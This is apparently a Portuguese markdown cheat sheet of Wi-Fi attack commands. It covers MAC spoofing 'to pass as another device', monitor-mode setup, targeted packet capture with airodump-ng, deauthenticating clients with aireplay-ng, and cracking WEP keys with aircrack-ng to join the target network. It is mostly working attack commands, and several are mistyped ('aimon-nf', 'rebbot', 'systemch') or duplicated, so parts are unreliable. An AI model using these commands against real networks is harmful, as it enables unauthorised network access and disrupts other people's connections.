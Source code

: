 ## Trocar o endereço MAC

**Objetivos:**
- Anonimizar
- Passar por outro dispositvo

**Comandos:**

   *$ ifconfig<br>
   $ ifconfig {interface} down<br>
   $ ifconfig {interface} hw ether {MAC novo}<br>
   $ ifconfig {interface} up*

# Wi-fi

## Colocando a interface no modo de monitoramento

### Opção 1
   *$ iwconfig <br>
   $ ifconfig {interface} down<br>
   $ airmon-ng check kill* (opcional)*<br>
   $ iwconfig {interface} mode monitor<br>
   $ ifconfig {interface} up*
### Opção 2
   *$ iwconfig<br>
   $ airmon-ng check kill <br>
   $ aimon-nf start {interface}*<br>
- Neste caso é criada uma nova inteface - normalmente com o acrescimo de 'mon' ao final do nome da inteface original.
## Restaurando a interface para o modo managed

### Opção 1 (se feito pelo opção 1 anterior)
   *$ iwconfig <br>
   $ ifconfig {interface} down<br>
   $ airmon-ng check kill* (opcional)*<br>
   $ iwconfig {interface} mode managed<br>
   $ ifconfig {interface} up*
### Opção 2 (se feito pelo opção 2 anterior)
   *$ iwconfig<br>
   $ airmon-ng check kill <br>
   $ aimon-nf stop {interface mon}<br>
   $ service NetworkManager restart, ou systemch restart NetworkManager*
### Opção 3 (ambos os casos)
   *$ rebbot*

## Monitorar redes de wifi
### Descobrindo as redes Wi-Fi

Com o modo monitor habilitado:

   *$ airodump-ng {interface}* - para redes 2.4Ghz <br>
   *$ airodump-ng --band a {interface}* - para redes 5Ghz <br>
   *$ airodump-ng --band a {interface}* - para ambas

### Monitorando uma rede específica (e gravar em arquivo)
   *$ airodump-ng --bssid {MAC alvo} --channel {canal alvo} --write {arquivo} {interface}*

### Desconectando um aparelho
Rodar simultaneamente , em outro terminal, com o airodump-ng 

   *$ aireplay-ng --deauth {número de envios} -a {MAC Servidor} -c {MAC Cliente} {interface}*

## Hackeando - segurança WEP
   *$ airodump-ng --bssid {MAC alvo} --channel {canal alvo} --write {arquivo} {interface}*
   
Em outro terminal

   *S aircrack-ng {arquivo.cap}* - Para achar a chave

- Para se conectar, basta selecionar a rede alvo e digitar a chave sem os ":"


   

